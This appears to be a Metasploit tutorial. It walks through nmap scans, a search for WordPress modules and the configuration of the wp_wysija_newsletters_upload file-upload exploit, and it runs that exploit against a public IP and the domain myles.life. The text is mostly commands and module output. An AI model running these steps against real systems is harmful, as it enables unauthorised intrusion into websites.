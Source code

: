 ### Identify a Remote Host

```sh
msf > db_nmap -v -sV 192.168.111.xxx
```

![pentest-env-kali-rolling__Running_.png](resources/575CF62D4C7E18CFD40566EA08E7D588.png)

#### Scan an Entire Network

* This will save the results to the metasploit database

```sh
msf > nmap -v -sV 192.168.111.0/24 -oA subnet_1
```

* `hosts` will list all the hosts found by `nmap`.
* `hosts -R` will add them to the list of hosts to exploit.

### Searching for a WordPress Vulnerability

```sh
msf > search name:wordpress
```

![pentest-env-kali-rolling__Running_.png](resources/A9D412A6F8C5F3485B429E2EA41D4CB9.png)

### Use an Exploit

* This will select an exploit to use:

```sh
msf > use exploit/unix/webapp/wp_wysija_newsletters_upload
```

* This will show you the attacks that the exploit will take advantage of:

```sh
msf exploit(wp_wysija_newsletters_upload) > show payloads
```

![pentest-env-kali-rolling__Running_.png](resources/67A7D5964C96C63BA11EEA707CB4A604.png)

* This will show what software and version will be targeted:

```sh
msf exploit(wp_wysija_newsletters_upload) > show targets
```

```text
Exploit targets:

    Id  Name
    --  ----
    0   wysija-newsletter < 2.6.8
```

### Next configure the Exploit

```sh
msf exploit(wp_wysija_newsletters_upload) > show options
```

```text
Module options (exploit/unix/webapp/wp_wysija_newsletter_upload):

    Name        Current Settings    Required    Description
    ----        ----------------    --------    -----------
    Proxies                         no          A proxy chain of format type:host:port[,type:host:port][...]
    RHOST                       no          The target address
    RPORT       80                  yes         The target port
    SSL         false               no          Negotiate SSL/TLS for outgoing connections
    TARGETURI   /                   no          The base path to the wordpress application
    VHOST                           no          HTTP server virtual host

Exploit target:

    Id  Name
    --  ----
    0   wysija-newsletters < 2.6.8
```

* Here is where we set all the options:

```sh
msf exploit(wp_wysija_newsletters_upload) > set RHOST 159.203.19.77
msf exploit(wp_wysija_newsletters_upload) > set RPORT 443
msf exploit(wp_wysija_newsletters_upload) > set SSL true
msf exploit(wp_wysija_newsletters_upload) > set VHOST myles.life
```

### Run the Exploit

```sh
msf exploit(wp_wysija_newsletters_upload) > exploit
```
